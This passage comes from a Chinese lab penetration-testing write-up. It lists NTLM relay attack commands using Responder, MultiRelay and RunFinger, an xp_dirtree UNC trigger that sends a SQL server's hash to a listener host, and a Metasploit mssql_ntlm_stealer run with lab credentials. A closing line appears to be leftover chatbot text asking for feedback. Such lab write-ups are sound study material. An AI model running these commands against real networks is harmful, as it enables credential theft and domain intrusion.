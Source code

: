![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YgEAo4pGuF3S1I77rd0XvonO7yQBtu45j1uJbS69OGcJ2vIoMib0gsVw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3Y0XubwTiaEQAFPt7FUuGHibfia3FW9nRQToRJkRORHUtDRLdlvfNhKJ7EQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3Yn1KjxdE8oEkTfTjv8icYkzut7HSJgicKT6Llor4J9gsuS7hR9taSIRJA/640?wx_fmt=png&from=appmsg "")  
  
  
使用工具进行攻击的具体操作如下：  
  
  
  
1.使用脚本扫描域内机器的 SMB 签名开放情况，命令为 python RunFinger.py -i 192.168.93.0/24（工具路径为 / Responder-2.3.3.0/tools/RunFinger.py） 。  
  
  
2.利用 MultiRelay.py 攻击，尝试获得目标主机的 shell，命令为 python MultiRelay.py -t 192.168.93.30 -u ALL（工具路径为 / Responder-2.3.3.0/tools/MultiRelay.py） 。  
  
  
3.利用 Responder.py 攻击，获取目标机器的 NTLM v2 hash 值，命令为 python Responder.py -I eth0（工具路径为 / Responder-2.3.3.0/Responder.py） 。  
  
  
  
运行监听后，可使用 msf 触发或手动触发 NTLM，手动触发命令为 EXEC master.sys.xp_dirtree '\192.168.93.100\simblog.txt',0,1;（IP 为运行监听的主机 IP）；msf 触发使用 auxiliary/admin/mssql/mssql_ntlm_stealer 模块，命令如下：  
  
  

```
use auxiliary/admin/mssql/mssql_ntlm_stealer
set rhosts 192.168.93.20
set smbproxy 192.168.93.100
set username testuser
set password cvcvgjASD!@
run
```

  
在测试过程中仅获取到 NTLM hash 值，未通过 MultiRelay 获取到 shell，推测可能由环境问题导致。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YyFBn6cQ8zQetoBn7oBrATUYDKpWRQr8yWjlK4mgPCVOliaMRqcso9lA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YoiapSNleoPmKY0qyMJvx4Xrc6NEPUFicAJ5m8kURDm3E53OphFcic32zw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YkkUNCibX9CNVzVJHfIWscYnOlv1gUoEjsyQkSjTftftXaTW6ibRZTZaw/640?wx_fmt=png&from=appmsg "")  
  
## 五、总结  
  
  
通过本次靶场渗透测试，学习到诸多实用技术，涵盖指纹识别 cms 到 getshell、主机信息收集、正反向代理、脏牛 / Ubuntu 提权、smb 扫描到域、NTLM Relay 攻击等方面。尤其是 NTLM Relay 攻击，在实践过程中花费大量时间进行研究与尝试。同时，还对 cs 上线 linux、正反向代理上线 Cs/Msf 等技术进行了探索。后续将继续深入学习，提升渗透测试技能，优化操作流程与技术应用。  
  
  
以上优化后的文档对渗透过程做了更清晰梳理。你可以说说对内容结构、技术细节等方面的看法，或提出其他修改需求。  
  